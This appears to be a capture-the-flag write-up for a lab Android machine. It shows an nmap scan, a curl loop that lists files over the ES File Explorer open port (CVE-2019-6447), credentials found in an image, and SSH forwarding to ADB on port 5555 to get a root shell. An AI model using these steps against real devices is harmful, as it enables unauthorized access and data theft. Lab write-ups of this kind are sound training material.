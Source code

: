 # Explore

First we start with `nmap`

```
# Nmap 7.92 scan initiated Sat Aug 21 15:22:43 2021 as: nmap -vvv -p 2222,35747,42135,59777 -sCV -oA init 10.10.10.247
Nmap scan report for box.ip (10.10.10.247)
Host is up, received conn-refused (0.099s latency).
Scanned at 2021-08-21 15:22:44 +07 for 103s

PORT      STATE SERVICE REASON  VERSION
2222/tcp  open  ssh     syn-ack (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|   2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCqK2WZkEVE0CPTPpWoyDKZkHVrmffyDgcNNVK3PkamKs3M8tyqeFBivz4o8i9Ai8UlrVZ8mztI3qb+cHCdLMDpaO0ghf/50qYVGH4gU5vuVN0tbBJAR67ot4U+7WCcdh4sZHX5NNatyE36wpKj9t7n2XpEmIYda4CEIeUOy2Mm3Es+GD0AAUl8xG4uMYd2rdrJrrO1p15PO97/1ebsTH6SgFz3qjZvSirpom62WmmMbfRvJtNFiNJRydDpJvag2urk16GM9a0buF4h1JCGwMHxpSY05aKQLo8shdb9SxJRa9lMu3g2zgiDAmBCoKjsiPnuyWW+8G7Vz7X6nJC87KpL
35747/tcp open  unknown syn-ack
| fingerprint-strings:
[snip]
42135/tcp open  http    syn-ack ES File Explorer Name Response httpd
|_http-title: Site doesn't have a title (text/html).
59777/tcp open  http    syn-ack Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
[snip]
Service Info: Device: phone

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 21 15:24:27 2021 -- 1 IP address (1 host up) scanned in 103.84 seconds
```

The "ES File Explorer" seems interesting and matches the name of the box so we dig further into it. Looking up "es file explorer exploit" gives us a [reference](https://www.rapid7.com/db/modules/auxiliary/scanner/http/es_file_explorer_open_port/) to exploitation with the metasploit module `scanner/http/es_file_explorer_open_port`, as well as an [exploit script](https://www.exploit-db.com/exploits/50070), both seeming to exploit the same CVE-2019-6447. However, since neither exploit allows us to list specific directories, I wrote a small script for exploring the file system.

```sh
#!/bin/bash
while true; do
  printf ">>> "
  read -r path
  curl -X POST "http://10.10.10.247:59777/$path" -H "Content-Type: application/json" --data "{\"command\": \"listFiles\"}"
  echo
done
```

With this, I started exploring `/sdcard` and found the file `/sdcard/DCIM/creds.jpg` which holds credentials for "kristi" with the password `Kr1sT!5h@Rp3xPl0r3!`. With the found credentials, we should be able to log into SSH on port 2222 and get a shell as "u0_a76".

Looking at open ports with `ss` ...

```sh
:/ $ ss -tlpn
State       Recv-Q Send-Q Local Address:Port               Peer Address:Port
LISTEN      0      50           *:59777                    *:*
LISTEN      0      50           *:2222                     *:*                   users:(("ss",pid=31554,fd=75),("sh",pid=30430,fd=75),("droid.sshserver",pid=3342,fd=75))
LISTEN      0      4            *:5555                     *:*
LISTEN      0      10           *:42135                    *:*
LISTEN      0      50       [::ffff:10.10.10.247]:36411                    *:*
LISTEN      0      8       [::ffff:127.0.0.1]:41789                    *:*
```

... we see some known ports listening on IPv4: 2222 for SSH, 42135 and 59777 for ES file explorer, and port 5555, whose program we don't know. Looking up port 5555 on Android, we find that this port is open by ADB and is a vulnerability on many Android devices.

We're now aiming to exploit ADB on port 5555. However, in attempting to connect, we're unable to connect to ADB from our attacking machine. Port 5555 didn't appear in our `nmap` result either so we can assume it's filtered by a firewall. To reach ADB on port 5555, we can port forward using our SSH connection.

```sh
ssh kristi@10.10.10.247 -p 2222 -L 5555:127.0.0.1:5555 -N
```

After that, we can connect to ADB

```
$ adb connect 127.0.0.1
connected to 127.0.0.1:5555
$ adb shell
x86_64:/ $ su
:/ # whoami
root
```

With that, we should have a root shell.
